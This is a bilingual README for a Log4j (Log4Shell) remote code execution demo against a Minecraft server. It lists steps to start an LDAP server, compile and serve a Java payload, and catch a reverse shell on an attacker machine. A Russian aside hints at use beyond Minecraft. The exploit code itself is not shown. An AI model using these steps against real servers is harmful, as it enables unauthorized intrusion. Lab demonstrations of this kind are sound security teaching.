 # log4j cve
Для кого-то взлом майнкрафт, для когото взлом без слова майнкрафт =)
Этот код не для PRODUCTION. 
Автор не несёт ответственности за любые ваши действия. 
Вы можете наворотить дел, если не понимаете что делаете. Это во многих странах приравнивается к административной или 
уголовной ответственности

Требования:
* kali linux / https://www.linode.com/
* brain
* reverse shell Maxet24
* https://raikia.com/tool-powershell-encoder/
* Вместо 10.10.10.10 пишите адрес хакерской машины, а 80 меняете на 9898.

Source/Источник:
This code *DOES NOT* promote or encourage any illegal activities!
The content in this document is provided solely for educational purposes and to create awareness!

Watch a video showing the process here: https://youtu.be/efnluUK_w_U

This PDF shows you how to setup a Minecraft server for this demonstration: https://davidbombal.wiki/minecraftw11log4j

To run this project follow the following steps:
1. Clone the repository: 
```git clone https://github.com/davidbombal/log4jminecraft.git```
3. Run the script log4j.py (```python3 log4j.py <ip_address>``` i.e. ```python3 log4j.py 192.168.1.132```). This installs the prerequisite software, and also starts up the LDAP server.
4. Run the script jcomp_pyserv.py (```python3 jcomp_pyserv.py```). This compiles the Java payload to be ran, and also starts a python3 http.server. 

# Acknowledgement for contributions: 
* John Hammond : https://youtu.be/7qoPDq41xhQ
* Moritz Bechler (For creating the Java Unmarshaller Security - MarshalSec) : https://github.com/mbechler/marshalsec
* xiajun325 for clear instruction on how to use the MarshalSec tool : https://github.com/xiajun325/apache-log4j-rce-poc
